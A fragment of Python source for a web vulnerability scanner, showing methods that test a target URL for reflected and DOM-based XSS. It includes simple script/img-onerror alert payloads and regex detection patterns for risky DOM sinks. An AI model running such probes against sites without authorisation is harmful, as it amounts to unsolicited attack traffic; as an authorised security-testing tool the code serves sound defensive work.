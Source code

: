 ```python
        ]
    
    def test_reflected_xss(self, parameters):
        """Test for reflected XSS"""
        print("[*] Testing for reflected XSS...")
        
        for param in parameters:
            for payload in self.payloads:
                test_url = f"{self.target_url}?{param}={quote(payload)}"
                
                try:
                    response = self.session.get(test_url, timeout=10)
                    
                    # Check if payload is reflected
                    if payload in response.text:
                        vulnerability = {
                            'type': 'Reflected XSS',
                            'parameter': param,
                            'payload': payload,
                            'url': test_url,
                            'severity': 'High'
                        }
                        self.found_vulnerabilities.append(vulnerability)
                        print(f"  [+] XSS found in parameter: {param}")
                        
                except Exception as e:
                    continue
    
    def test_dom_xss(self):
        """Test for DOM-based XSS"""
        print("[*] Testing for DOM-based XSS...")
        
        dom_payloads = [
            '#<script>alert("DOM XSS")</script>',
            '#<img src=x onerror=alert("DOM XSS")>',
            '#"><script>alert("DOM XSS")</script>'
        ]
        
        for payload in dom_payloads:
            test_url = f"{self.target_url}{payload}"
            
            try:
                response = self.session.get(test_url, timeout=10)
                
                # Look for DOM manipulation patterns
                dom_patterns = [
                    r'document\.write\(',
                    r'innerHTML\s*=',
                    r'location\.hash',
                    r'location\.search'
                ]
                
                for pattern in dom_patterns:
                    if re.search(pattern, response.text):
                        vulnerability = {
                            'type': 'DOM-based XSS',
                            'payload': payload,
                            'url': test_url,
                            'pattern': pattern,
                            'severity': 'High'
                        }
                        self.found_vulnerabilities.append(vulnerability)
                        print(f"  [+] Potential DOM XSS found")
```